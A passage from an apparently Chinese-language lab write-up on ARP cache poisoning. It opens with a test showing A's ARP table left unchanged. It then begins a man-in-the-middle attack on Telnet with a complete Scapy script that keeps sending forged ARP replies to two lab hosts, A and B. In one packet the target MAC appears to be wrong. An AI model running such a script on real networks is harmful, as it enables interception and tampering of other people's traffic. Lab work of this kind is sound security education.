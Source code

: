 然后再次运行：

```shell
M-10.9.0.105$ arp.py
.
Sent 1 packets.
```

抓包得到：

![arp6](/assets/post/images/arp6.webp)

此时 `A` 上的记录没有变化：

```shell
A-10.9.0.5$ arp -n
```

可见该情况和 reply 的结果是一样的。

## Task 2: MITM Attack on Telnet using ARP Cache Poisoning

### Step 1 Launch the ARP cache poisoning attack

修改程序：

```shell
#!/usr/bin/python3 
from scapy.all import * 

A_ip = "10.9.0.5"
A_mac = "02:42:0a:09:00:05"
B_ip = "10.9.0.6"
B_mac = "02:42:0a:09:00:06"
M_ip = "10.9.0.105"
M_mac = "02:42:0a:09:00:69"

ethA = Ether(src=M_mac,dst=A_mac) 
arpA = ARP(hwsrc=M_mac, psrc=B_ip,
           hwdst=A_mac, pdst=A_ip,
           op=2) 
ethB = Ether(src=M_mac,dst=B_mac) 
arpB = ARP(hwsrc=M_mac, psrc=A_ip,
           hwdst=A_mac, pdst=B_ip,
           op=2) 

while True:
    pktA = ethA / arpA
    sendp(pktA, count=1)
    pktB = ethB / arpB
    sendp(pktB, count=1)
    time.sleep(5)
```
